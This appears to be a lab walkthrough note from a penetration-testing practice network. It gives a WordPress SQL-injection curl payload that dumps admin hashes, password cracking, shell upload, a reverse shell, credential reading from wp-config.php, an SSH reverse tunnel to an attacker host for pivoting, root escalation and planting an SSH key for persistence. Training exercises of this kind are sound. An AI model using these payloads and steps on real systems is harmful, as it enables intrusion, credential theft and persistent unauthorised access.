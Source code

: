 1. Get admin username and hash using SQLi (EDB-45411)

```
curl -i -s -k -X $'GET' \
    -H $'Host: sandbox.local' \
    -b $'wp_sap=[\"1650149780\')) OR 1=1 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,(SELECT concat(user_login,\':\',user_pass) from wp_users),11#\"]' \
    $'http://sandbox.local/'
```

```
GET / HTTP/1.1
Host: sandbox.local
Cookie: wp_sap=["1650149780')) OR 1=1 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,(SELECT concat(user_login,':',user_pass) from wp_users),11#"]
```   
2. Crack hash using John the Ripper (JtR)
   
``` 
john --wordlist=/usr/share/wordlists/rockyou.txt pass.txt
```
   
3. Login to Wordpress dashboard and upload a shell using plugin
4. Establish a reverse shell on port **443**
5. Read wp-config.php file to get username and password for wordpress database (10.5.5.11 - zora)

``` 
cat wp-config.php
```

> [!note] 
>  wp user doesn't have enough privilege to use [[udf]]

6. Generate an ssh key-pair (on ajla)
   
``` 
ssh-keygen
```
   
7. Add ajla's public key to Kali
   
```
from="10.11.1.250",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa AAAAB3Nz....IQv www-data@ajla
```   

8. Set up a remote port forward from ajla to expose port 22 and port 3306 of zora to Kali. Use port 1122 of Kali to point to port 22 of zora, and use 13306 of Kali to point to port 3306 of 

 ``` 
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@KALI_IP
```

9. Verify (on Kali) if port 1122 and 13306 is already opened
   
``` 
sudo netstat -tulpn
```


 
Post-exploitation
1. Compile exploit (EDB-45010)
2. Transfer compiled exploit and run on target. You should get root access if done correctly.
3. Escalate reverse shell to SSH by adding your public key to /root/.ssh/authorized_keys
4. Read /root/proof.txt
5. Read ~/.bash_history. You should get a mysql root access to zora (10.5.5.11)

Check zora's [[sanbox/10.5.5.11 - zora/4. Report/walkthrough]] for pivot